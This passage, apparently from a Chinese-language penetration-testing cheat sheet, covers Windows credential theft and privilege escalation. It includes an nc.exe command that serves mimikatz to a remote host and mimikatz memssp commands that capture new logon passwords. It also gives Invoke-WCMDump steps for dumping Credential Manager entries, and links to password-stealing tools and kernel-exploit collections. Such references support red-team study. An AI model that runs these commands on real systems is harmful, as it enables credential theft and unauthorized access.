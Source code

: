     # Attacker 执行
    nc.exe -vv 192.168.1.2 443 -e mimikatz.exe
    # 192.168.1.2 为 Victim IP
    ```

    若管理员有每过几天就改密码的习惯,但是 mimikatz 抓取到的密码都是老密码,用 QuarksPwDump 等抓的 hash 也是老 hash,新密码却抓不到的情况下
    ```
    privilege::debug
    misc::memssp
    ```
    记录的结果在 `c:/windows/system32/mimilsa.log`

- [skelsec/pypykatz](https://github.com/skelsec/pypykatz) - 用纯 Python 实现的 Mimikatz

- [AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne) - 抓密码神器

- [Arvanaghi/SessionGopher](https://github.com/Arvanaghi/SessionGopher) - 使用 WMI 提取 WinSCP、PuTTY、SuperPuTTY、FileZilla 和 Microsoft remote Desktop 等远程访问工具保存的会话信息的 ps 脚本

- **[Invoke-WCMDump](https://github.com/peewpw/Invoke-WCMDump)**
    ```
    set-executionpolicy remotesigned
    import-module .\Invoke-WCMDump.ps1
    invoke-wcmdump
    ```

- [SterJo Key Finder](https://www.sterjosoft.com/key-finder.html) - 找出系统中软件的序列号

#### Windows_vul
**漏洞查询**
- **文章**
    - [windows 本地提权对照表](http://www.7kb.org/138.html)

- **文件**
    - [BulletinSearch-微软官网提供的漏洞 excel 列表](http://download.microsoft.com/download/6/7/3/673E4349-1CA5-40B9-8879-095C72D5B49D/BulletinSearch.xlsx)

- **工具**
    - [GDSSecurity/Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) - 此工具将目标修补程序级别与 Microsoft 漏洞数据库进行比较,以便检测目标上可能缺少的修补程序.
    - [bitsadmin/wesng](https://github.com/bitsadmin/wesng) - Windows Exploit Suggester
    - [tengzhangchao/microsoftSpider](https://github.com/tengzhangchao/microsoftSpider) - 爬取微软漏洞信息,MS 对应的每个版本操作系统 KB 号以及补丁下载地址.
    - [提权辅助网页](https://bugs.hacking8.com/tiquan/)
    - [Windows提权EXP在线搜索工具](http://blog.neargle.com/win-powerup-exp-index/)

**漏洞资源**
- [SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) - Windows 平台提权漏洞集合
- [WindowsExploits/Exploits](https://github.com/WindowsExploits/Exploits)- Windows Exploits

**混合类**
- **CVE-2018-8420 Msxml 解析器的远程代码执行漏洞**
    - POC | Payload | exp
        - [Lz1y/CVE-2018-8420](https://github.com/Lz1y/CVE-2018-8420)
